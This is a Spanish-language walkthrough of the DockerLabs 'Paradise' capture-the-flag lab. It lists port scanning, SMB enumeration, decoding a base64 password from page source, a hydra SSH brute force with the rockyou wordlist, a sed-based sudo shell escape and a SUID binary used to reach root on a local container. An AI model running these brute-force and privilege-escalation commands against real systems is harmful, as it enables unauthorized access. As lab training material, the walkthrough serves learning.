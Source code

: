 nmap: 445,80,22,139

![[dockerlabs/facil/paradise/test1.png]]

---
hacemos un: enum4linux -a 172.17.0.2

![[dockerlabs/facil/paradise/test2.png]]

Nos da dos nombres: andy y lucas

en el código fuente de la pagina de "Andy's house" hay una contraseña en base64: 

![[dockerlabs/facil/paradise/test3.png]]

> ZXN0b2VzdW5zZWNyZXRvCg==

Usamos: https://www.base64decode.org/es/

    nos da: estoesunsecreto

es un parámetro, así que dejamos la URL de la siguiente forma.

> http://172.17.0.2/estoesunsecreto/mensaje_para_lucas.txt

![[dockerlabs/facil/paradise/test4.png]]

Lanzamos un ataque de fuerza bruta ya que nos indican que la contraseña es débil:

> hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

![[dockerlabs/facil/paradise/test5.png]]

nos da la contraseña de lucas: chocolate

entramos en el ssh con el usuario y contraseña encontrado

![[dockerlabs/facil/paradise/test6.png]]

utilizamos sudo -l

se escala con sed y lo buscamos en: https://gtfobins.github.io/gtfobins/sed/

colocamos el comando que nos dio y lo modificamos al principio: 

>sudo - u andy sed -n '1e exec sh 1>&0' /etc/hosts

![[dockerlabs/facil/paradise/test7.png]]


ahora buscamos como escalar, y buscando entre carpetas con el comando: 
> find / -perm -4000 -ls 2> /dev/null

Nos da dos ejecutables en " /usr/local/bin ", así que vamos a la ruta que nos muestra.

hay un "privileged_exec"
lo ejecutamos ya que tiene permisos de ejecución con Andy

> ./privileged_exec

![[dockerlabs/facil/paradise/test8.png]]
y somos root!
